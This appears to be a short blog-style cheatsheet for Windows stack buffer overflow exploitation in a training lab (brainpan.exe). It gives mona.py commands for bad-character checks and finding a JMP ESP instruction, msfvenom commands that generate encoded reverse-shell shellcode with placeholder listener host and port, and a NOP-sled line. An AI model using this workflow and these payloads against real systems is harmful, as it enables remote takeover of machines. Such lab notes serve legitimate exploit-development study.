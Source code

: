 ```yaml
---
title: "Buffer Overflow Cheatsheet"
date: 2021-12-01T00:20:30+01:00
categories:
  - Resources
tags:
  - Bufferoverflows
  - Cheatsheet
share: false
#layout: single
classes: wide
---
```


### After getting control of EIP

Set a **working folder**  
`!mona config -set workingfolder C:\Users\shroudri\%p`


Generate bytearray  
`!mona bytearray`

Generate bytearray excluding a certain badchar\
`!mona bytearray -cpb "\x00"` <br>
`!mona bytearray -cpb "\x00\x0a\etc"`


Compare ESP with generated bytearray to check for badchars automatically  
`!mona compare -f C:\Users\shroudri\%p\bytearray.bin -a <ESP_ADRESS> #(e.g 00F23930)`

Generate revshell with msfvenom  
`msfvenom -p windows/shell_reverse_tcp -a x86 -e x86/shikata_ga_nai -f c LHOST=insertip LPORT=insrertport -b "\x00" EXITFUNC=thread`  
`msfvenom -p windows/shell_reverse_tcp -a x86 -e x86/shikata_ga_nai -f c LHOST=insertip LPORT=insrertport -b "\x00\x0a\xaf" EXITFUNC=thread`  


List all available programs        
`!mona modules`

### Next step: We want to make EIP point to ESP
This command will find an instruction within a program to jump to the ESP (FFE4 == jmp_esp)   
`!mona find -s "\xFF\xE4" -m brainpan.exe`

Because shikata_ga_nai is being used, a few NOPs must be introduced between EIP and Shellcode   
`NOPS= "x90"*16`